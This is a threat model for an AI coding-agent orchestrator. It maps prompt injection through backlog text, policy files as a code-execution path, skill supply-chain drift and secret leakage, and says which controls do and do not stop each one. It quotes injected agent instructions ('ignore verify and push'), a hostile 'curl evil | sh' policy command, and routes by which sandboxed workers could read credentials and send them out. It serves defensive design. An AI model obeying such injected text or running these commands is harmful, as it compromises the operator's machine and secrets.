

# Threat model: prompt injection via backlog text and skill supply chain

Scope: the shared profile of this kit (`skills/`, `context/`, `cursor-commands/`)
and the opt-in `ai-task` orchestrator (`scripts/ai-task.py` shim plus the
`scripts/ai_task/` package). The document lists the actors, the trust
boundaries and the attack vectors, and ties each claim to the code that
implements, or does not implement, the control.

The core loop of the system **executes natural-language instructions** taken
from backlog task blocks and the task packets generated from them. A task block
is, in effect, agent source code: a packet whose Context says *"ignore verify
and push"* is a prompt-injection payload, not a comment. The surface grows with
every repository and every additional person who writes backlog text.

---

## 1. Actors and trust boundaries

**Trust boundaries that matter:**

- **Owner → backlog/packet.** When the owner writes the backlog alone, the
  injection content is self-authored and unlikely. A second operator, several
  repositories and a backlog shared through git move backlog text across a trust
  boundary: a teammate's task block, a merged PR, or an inbox note
  (`pending_inbox_notes`, `scripts/ai_task/packets.py`) becomes instructions the
  agent executes on the operator's machine.
- **Packet → agent.** `packet_text` (`scripts/ai_task/packets.py`) embeds
  `task.block` **verbatim** into the packet, plus optional `rework_block`
  (review findings from a prior run, `packet_rework_block` in
  `scripts/ai_task/review.py`) and `notes_block` (inbox). Whatever text reaches
  those slots reaches the agent.
- **Policy → execution.** `.ai-task/policies/*.toml` and `config.toml` are
  gitignored and operator-owned, but they encode **executable command strings**
  (verify profiles, quota refresh sources) and the backend argv with its
  permission flags. Anyone or anything that can write those files gains code
  execution at verify, refresh or launch time.
- **Third-party upstreams and other installers → session.** Third-party pack
  content and whatever other tools put into `~/.agents/skills` enter **every**
  session through the skill links. The second channel is asymmetric: the content
  lives outside the repository, so a change there is invisible to repository
  review and git history.
- **Agent and CLI → network.** The CLI makes two outbound calls, both to fixed
  URLs: a GET to the Anthropic usage URL with the user's OAuth bearer
  (`fetch_claude_oauth_usage_json` in `scripts/ai_task/quota.py`), and the
  run-outcome ping to the Telegram Bot API (`_telegram_send` in
  `scripts/ai_task/notify.py`). The Telegram Stop and Notification hook sends
  session summaries to the same API from every Claude Code session. Both
  Telegram senders are an egress channel, covered in V4. Each agent backend has
  its own, broader network surface, bounded per backend in the next subsection.

### Execution backends and their boundaries

ai-task launches four headless CLIs and records a fifth kind of worker that it
does not launch. The packet reaches each of them as instructions, so V1 applies
to all five. They differ in what stops an injected or mistaken action while the
run is going. The flags below are the bundled policy template (`default_policy`
in `scripts/ai_task/policy.py`); a repository's policy can change them, which is
the V2 surface. Every headless worker runs as the operator's OS user, in the run
worktree when worktrees are on, and `backend_env` in
`scripts/ai_task/lifecycle.py` strips the teamlead session markers from a Claude
or Codex worker so it cannot pass for a teamlead.

| Worker | Launch | Boundary while it runs | What the boundary does not stop |
|---|---|---|---|
| Claude Code (`claude`) | `--print --permission-mode auto --permission-prompts none --settings <json>` with `permissions.denyInsteadOfPrompting`, `permissions.blockWritesOutsideWorkingDirectories` and the Bash sandbox (Claude Code 2.1.319 or newer) | auto mode judges every tool call, and a call that would wait on a prompt is denied, in subagents too. Write, Edit and NotebookEdit refuse paths outside the worktree. Bash runs in the Claude Code sandbox: writes only inside the worktree and the temp folder, network only to GitHub and PyPI domains, no unsandboxed escape, and claude stops when the sandbox cannot start. The settings come through argv, so the agent cannot loosen them by editing the worktree's `.claude/settings.json` | reads: the worker can read any file the OS user can, credentials included, and send it to an allowed domain, for example a GitHub gist. `git push` works where the host has GitHub credentials. A policy that keeps `--dangerously-skip-permissions` or drops the sandbox loses the boundary (V2); `quota doctor` reports the first. In print mode Claude Code drops a settings JSON that fails validation whole, which would remove the write block and the sandbox without an error; the settings canary makes `ai-task run` refuse that launch and `quota doctor` fail |
| cursor-agent (`cursor_codex`, `cursor_auto`) | `--print --trust --yolo`, `--workspace <worktree>` | none inside the process: `--yolo` approves every action, `--workspace` only sets the directory | anything the OS user can do: writes outside the worktree, `git push`, network egress, reading credentials |
| Codex (`codex exec`) | `--sandbox workspace-write`, `-c approval_policy="never"`, `--ephemeral`, packet on stdin | the Codex sandbox lets the process write only inside the workspace and temp directories, and `approval_policy="never"` makes a denied action fail instead of waiting for approval nobody gives. With `worker_sandbox = true` in `[backends.codex]` (the template default) ai-task turns network on and routes it through the Codex managed proxy, which lets through only the GitHub and PyPI domains of the Claude worker, plus the npm registry for node projects; uv, pip and npm caches move into the worktree, and Xcode projects get DerivedData, the SwiftPM caches and the macOS per-user temp folders as writable roots. With the key off, network follows the operator's Codex config, off by default | reads: the sandbox limits writes, so the worker can read any file the OS user can, including credentials, and with network enabled it can send them out. A policy edit that changes the sandbox flag removes the boundary (V2) |
| Devin (`devin -p`) | `--permission-mode bypass`, `--respect-workspace-trust false` | none on the host: every action is approved and the workspace trust check is off. Devin's org-level team settings can still deny an action | anything the OS user can do: writes outside the worktree, `git push`, network egress, reading credentials. The org settings belong to the Devin account, not to this repository |
| In-session subagent (`claude_subagent`, `codex_subagent`) | none: ai-task records the run, and the teamlead starts a fresh subagent of its own session | whatever the teamlead session runs under: its permission mode, its sandbox, its tools. ai-task sees nothing until `ai-task worker-done`. At finalize, `enforce_main_tree_clean_at_finalize` in `scripts/ai_task/lifecycle.py` flags new tracked edits on the main tree, as for any worktree run | a teamlead session in bypass mode gives the subagent bypass too. The subagent may also reach the session's connectors and browser, a wider surface than a headless worker. Using the worktree is an instruction to the subagent, and the finalize check sees only tracked files of the main tree, after the fact |

**Status:** documented boundaries. The Claude worker denies whatever would
prompt, and both its file tools and its shell write only inside the worktree;
its network goes only to GitHub and PyPI domains. Claude and Codex have a write
sandbox; neither limits reads. Node projects add the npm registry and Xcode
projects add write access to DerivedData, the SwiftPM caches and the macOS
per-user temp folders. DerivedData is shared by every Xcode project of the user,
so a worker of one project can change the build products of another; Xcode
rebuilds what it sees as stale, but a planted product with a fresh date survives
until the next clean build. The Codex worker gets the same domains and the same
Xcode folders through its own sandbox settings; its domain filter is the managed
network proxy, which Codex marks experimental. For a backlog that is not
self-authored the V1 rule stands: `scope_guard` in `require_ack` mode, plus a
backend whose sandbox matches the risk.

---

## 2. Attack vectors

Each vector lists likelihood (one operator now / a shared backlog later), impact,
the code anchor analyzed, what existing controls do, and what they do **not**
stop.

### V1. Backlog / packet prompt injection

**Likelihood:** Low with one operator who writes the backlog, Medium with a
second operator, a shared backlog and inbox or rework text. **Impact:** High.

**Anchors:** `packet_text` (`scripts/ai_task/packets.py`) inlines `task.block`,
`rework_block`, and `notes_block`; the backend launches with policy argv
`["--model","sonnet","--effort","high","--print"]` **plus**
`extra_args = ["--permission-mode", "auto", "--permission-prompts", "none", "--settings", <json>]`
(the policy template in `scripts/ai_task/policy.py`; cursor backends add
`--yolo --trust`, Devin runs with `--permission-mode bypass`, Codex with
`--sandbox workspace-write` and `approval_policy="never"`, see "Execution
backends and their boundaries"). The packet is passed to the backend as an argv
element or on stdin (`backend_command` and the `Popen` launcher in
`scripts/ai_task/runs.py`), so there is **no shell injection** at this layer
(argv list, not `shell=True`). The injection is **semantic**: the LLM is asked
to follow the embedded instructions.

**What the existing controls do:**

- **scope_guard (`apply_scope_guard_at_finalize` in `scripts/ai_task/lifecycle.py`)**
  snapshots the configured `task_files` (default `["BACKLOG.md"]`) at launch
  and, **at finalize**, diffs them, recording every edit **outside the run's own
  task block** as `out_of_scope_edits` (`backlog_out_of_scope_edits` in
  `scripts/ai_task/runs.py`). Default `mode = "warn"` only reports;
  `mode = "require_ack"` blocks `verdict approve` / `complete` until reverted or
  acknowledged (`enforce_scope_guard_ack` in `scripts/ai_task/lifecycle.py`). The
  guard also hashes `.gitmodules`, `.ai-task/config.toml` and
  `.ai-task/policies/*.toml` at launch and flags changes at finalize as
  `sensitive_file_edits` on the run (status --json, operator alert, `run --wait`
  summary, an anomaly row in the decision journal).
- **verify gate (`run_verify_commands` in `scripts/ai_task/verify.py`, policy
  `[verify]`)** runs stack commands before AI review;
  `require_before_review = true` and `allow_skip = false` make verify mandatory
  and machine-blocking.
- **risk gates (`risk_gates` in `scripts/ai_task/backlog.py`,
  `enforce_risk_confirm` in `scripts/ai_task/decisions.py`)** require
  `--confirm-risk` when a task is high-priority or its text matches `RISK_WORDS`.
- **The "Untrusted backlog input" checklist** in [ai-task.md](ai-task.md) and the
  teamlead skill (`reference-operations.md`) says what to switch on before
  running a backlog someone else wrote.

**What they do NOT stop:**

- scope_guard is **post-hoc and warn-by-default.** It detects a scope-creep
  *backlog edit* and a control-file change after the run finished; it does
  **not** observe the run while it executes, does **not** watch the working tree
  at large, `git push`, or network egress. An injected *"skip verify and push"*
  is not a file edit, so scope_guard never sees it. In `warn` mode (the shipped
  default) it does not block even the edits it does see.
- verify checks **exit codes of lint and test commands**, not agent intent. It
  cannot tell that an agent exfiltrated a secret or pushed; a payload that keeps
  lint and tests green passes.
- no backend asks a person mid-run. Cursor runs with `--yolo --trust` and Devin
  with `--permission-mode bypass`, so every action is approved. The Claude
  worker lets auto mode judge each call and denies what would prompt; the
  classifier treats the packet as the user's request, so an injected instruction
  is judged as a wish of the owner. Its Bash sandbox and Codex's sandbox limit
  writes to the workspace, and both limit network to GitHub and PyPI domains; an
  in-session subagent gets whatever its teamlead session allows.

**Posture.** `mode = "warn"` stays the default for one operator, because the
backlog author, operator and reviewer are the same person and a hard gate would
only ask the author again. `mode = "require_ack"` is the rule once backlog text
is not self-authored. It is a rule rather than an automatic switch, because
per-block authorship detection (git blame heuristics) is fragile.
**Residual (accepted):** mid-run network and push egress stays unobserved. The
CLI launches and finalizes runs and has no observation point in between; egress
control belongs to a sandbox or network layer around the backend process.

### V2. Policy / verify / refresh command as a code-execution vector

**Likelihood:** Low while the policy is operator-owned and gitignored, Medium
when a prompt-injected agent, a second operator or a merged PR can write
`.ai-task/policies/*.toml`. **Impact:** High (arbitrary command execution on the
operator's machine).

**Anchors:** verify profile commands are **shell strings** executed via
`bash -o pipefail -c <command>` on POSIX and `shell=True` on Windows
(`run_verify_commands` in `scripts/ai_task/verify.py`). Quota refresh sources are
`shlex.split` and executed (`quota_refresh_source_command` and
`run_quota_refresh_source` in `scripts/ai_task/quota.py`). The backend command
and `extra_args` (its permission flags) are likewise read straight from policy
(`backend_command` in `scripts/ai_task/runs.py`). All three are config-as-code.
An edit that puts `--dangerously-skip-permissions` back into the Claude argv
removes the worker boundary; `quota doctor` reports such a policy as mode
`bypass`.

**What the existing controls do:** policy files are gitignored and
operator-owned; `scope_guard_task_files` keeps snapshots inside the working tree
and rejects absolute and `..` paths. An agent edit to `default.toml` adding
`commands = ["curl evil | sh"]` during a tracked run shows up on the run record
as a `sensitive_file_edits` entry. Between runs a **persistent policy-hash
baseline** at `.ai-task/policy-hashes.json` closes the window: it is written on
`ai-task init` and `ai-task policy sync` (the operator's review point) and
checked at `run`, `verify` and `plan --bulk` entry, exactly the commands that
execute policy-sourced commands. A mismatch warns loudly, names the drifted
files ("policy changed since last sync … run `ai-task policy sync` to
re-baseline") and logs a `policy_baseline_drift` decision row, deduplicated
while the drift stays the same; a missing baseline is recorded once with a
notice.

**What they do NOT stop:** there is **no signature or approval** on policy
content. The baseline catches drift caused by an agent or a PR between syncs,
not a malicious operator, who can rewrite `.ai-task/policy-hashes.json` with the
policy. The warning is informational, so an operator who ignores it and runs
again still executes the drifted policy.

### V3. Poisoned third-party update / drift in `~/.agents/skills`

**Likelihood:** Low (the default sync stays pinned). **Impact:** High (a skill
is markdown and scripts the agent reads and may execute).

**Anchors:** third-party packs are pinned by SHA in-tree (`.gitmodules` and
gitlinks). The default path of `sync-third-party-skills.sh` runs
`git submodule update --init --recursive` and stays at the pinned SHA. The
`--remote` flag instead runs `git submodule update --init --remote --recursive`,
advancing each pack to its configured **upstream branch HEAD**, which is
unreviewed upstream code, and the script prints a warning that says so.
`link-third-party-skills.sh` validates skill-path entries (rejects absolute and
`..` paths) and **refuses to overwrite** links it does not manage or local files.
Skills that other installers put into `~/.agents/skills` live outside the
repository; an installer may keep its own hash lock there.

**What the existing controls do:** SHA pinning makes the default update
reproducible and review-gated (a pin bump is a tracked `.gitmodules` and gitlink
diff). The link scripts refuse path traversal and refuse to clobber local
content.

**What they do NOT stop:** `--remote` has **no integrity check and no
diff-review gate**: it pulls whatever upstream HEAD is now, and the new skill
content is live in the next session. Review the resulting `.gitmodules` and
gitlink diff before you commit it. A change inside `~/.agents/skills` leaves
**no repository-visible diff**: git history, `scope_guard` and PR review all see
nothing. Keep your own record of what you linked from there, and compare it after
an installer update.

### V4. Secrets exfiltration via telemetry / journal / reports / Telegram

**Likelihood:** Low. **Impact:** Medium-High (OAuth token, repository internals).

**Anchors:** the OAuth token lookup chain `load_claude_oauth_token` in
`scripts/ai_task/quota.py` reads env (`CLAUDE_CODE_OAUTH_TOKEN` and others),
then `~/.claude/.credentials.json`, then the macOS keychain via
`security find-generic-password`. It is used **only** as a `Bearer` header
(`fetch_claude_oauth_usage_json` in `scripts/ai_task/quota.py`) and is **never
logged or printed**: `_extract_oauth_token` returns the value but no code path
emits it. Telemetry redaction `_redact_abs_paths` rewrites the repository root
and `$HOME` to placeholders and reduces leftover absolute paths to basenames; the
quota sample carries only window percentages, never the source path or token
(`telemetry_quota_snapshot` in `scripts/ai_task/quota.py`); the diffstat body is
capped at `QUOTA_TELEMETRY_DIFFSTAT_MAX_CHARS = 4000`. State is written
atomically via `tempfile.mkstemp` (0600) and `os.replace` (`_write_json_atomic`
in `scripts/ai_task/state.py`).

**What the existing controls do:** the token is never serialized to logs or
telemetry; telemetry is redacted and capped; the diffstat is a summary, not a
transcript. The shared rules in `context/AGENTS.md` forbid internal project
names, infrastructure host names and home paths in tracked files, and the
analytics, cost and retro skills (`ai-task-retro`, `ai-task-product`) anonymize
project ids when they write cross-repository `.ai-task` data into a tracked file.

**What they do NOT stop:** `decisions.jsonl` reasons, `tasks/*.md` reports and
`reports/` are **agent-authored free text with no redaction**: a prompt-injected
agent that reads a secret could write it into a task report or a decision reason,
and nothing scrubs it. `telemetry_path` may be an **absolute, cross-repository
shared path** for pooling; samples then cross the repository boundary (low
sensitivity: percentages and a redacted diffstat, but the diffstat can carry real
changed-file *names*). A cross-repository report that reads other repositories'
gitignored `.ai-task/` data can carry their names into a tracked file unless the
anonymization rule is followed. **Status:** mitigated for the token; accepted
residual for agent-authored free text.

**Telegram as an egress channel.** Two senders post to
`https://api.telegram.org/bot<token>/sendMessage`: the global Claude Code hook
`hooks/telegram-notify.py` on Stop and Notification events in every repository,
and `notify_run_outcome` in `scripts/ai_task/notify.py` when a run finishes
(`[notify]` in the policy). The bot token and chat id live in
`~/.claude/channels/telegram/.env` and `access.json`, outside every repository,
and the token is used only in that URL. The URL is a constant, so neither sender
can be pointed at another host by repository content. What leaves the machine:
the repository folder name and branch, the first 80 characters of the user's
latest request or of the task title, task ids, changed file names, quota
percentages, and the notification title and text that Claude Code supplies.

The boundary is the operator's own chat: the text goes to Telegram's servers over
HTTPS and stays in the chat history. It does not stop a secret typed into the
first 80 characters of a request, or the name of a private repository, branch or
file, from reaching Telegram. The hook is global, so it reports from every
repository the operator works in. A prompt-injected agent cannot widen the
message, because both senders build it from fixed fields rather than from agent
output; it can only choose what lands in those fields, such as a branch name or
a task title. **Status: accepted residual** for a single operator with a private
chat. Before a second operator or a shared chat, the hook needs an allowlist of
repositories it reports from.

---

## 3. Agent security pass over `scripts/`

A focused manual review of the high-risk primitives in the CLI
(`scripts/ai-task.py` plus the `scripts/ai_task/` package). Run the built-in
`/security-review` of Claude Code as a recurring check as well, and again after
any change to the verify, refresh or backend plumbing.

Findings of the pass:

- **No classic injection sinks.** `grep` for `os.system` / `eval(` / `exec(` /
  `pickle` / `yaml.load` / bare `input(` over the CLI sources returns nothing.
  The one `ast.literal_eval` (policy-sync value parse) is literal-only and safe.
- **`shell=True` appears twice.** One is in a docstring; the only real occurrence
  is the **Windows fallback** of the verify runner, where a POSIX
  `bash -o pipefail -c` is unavailable. Both paths execute the
  **policy-configured verify command string**: this is the intended verify
  mechanism and the same config-as-code surface as V2. The string comes from
  policy, not from backlog text.
- **Two `urlopen` targets.** `fetch_claude_oauth_usage_json` GETs the
  **constant** `CLAUDE_OAUTH_USAGE_URL = "https://api.anthropic.com/api/oauth/usage"`
  (`# noqa: S310` justified: a user-authenticated Anthropic endpoint).
  `_telegram_send` in `scripts/ai_task/notify.py` POSTs to the constant Telegram
  Bot API URL with a token read from the operator's local file (V4). No SSRF:
  neither URL is derived from repository or agent input.
- **`shlex.split` of policy-configured commands** (refresh source, nested-pipe
  detector): the refresh-source split feeds a real `subprocess.run` (V2 surface);
  the nested-pipe split is analysis-only.
- **`tempfile.mkstemp`** is used correctly for atomic writes (0600, same
  directory, `os.replace`), so there is no predictable temp file.
- **Backend and git subprocess calls** use **argv lists** (no `shell=True`), so
  the packet text and git output are not shell-interpreted (`Popen`,
  `collect_git_changed_paths` in `scripts/ai_task/review.py`).

**Verdict of the pass:** the CLI sources are clean of accidental injection sinks;
their code-execution surface is **intentional and policy-driven** (verify command
strings, quota refresh sources, backend argv), which is exactly the trust
boundary documented as V2. The supply-chain surface (V3) lives outside these
files.

---

## 4. Summary

| ID | Vector | Likelihood (now / shared backlog) | Impact | Existing mitigation | Residual |
|----|--------|-----------------------------------|--------|---------------------|----------|
| V1 | Backlog / packet prompt injection | Low / Medium | High | scope_guard (warn default, `require_ack` for backlogs you did not write); control-file watch at finalize; untrusted-backlog checklist; verify gate; risk gates; worker sandboxes | mid-run egress, accepted |
| V2 | Policy / verify / refresh command exec | Low / Medium | High | operator-owned and gitignored; in-run edits flagged as `sensitive_file_edits`; drift between runs warned via the `policy-hashes.json` baseline at run, verify and plan-bulk entry | a malicious operator, accepted; the warning does not block |
| V3 | Poisoned third-party `--remote` update / drift in `~/.agents/skills` | Low | High | SHA pinning by default; `--remote` warning; link-script path and clobber refusal | no integrity check on `--remote`; no repository-visible diff for `~/.agents/skills` |
| V4 | Secrets exfiltration via telemetry / journal / reports / Telegram | Low | Medium-High | token never logged; telemetry redaction and caps; atomic 0600 writes; the no-internal-names rule for tracked files; Telegram senders build messages from fixed fields to a constant URL | agent-authored free text; the Telegram summary text (80 characters of the request, repository, branch and file names) |

This document is the threat-model home registered in the doc-ownership map
([ai-task.md](ai-task.md)).
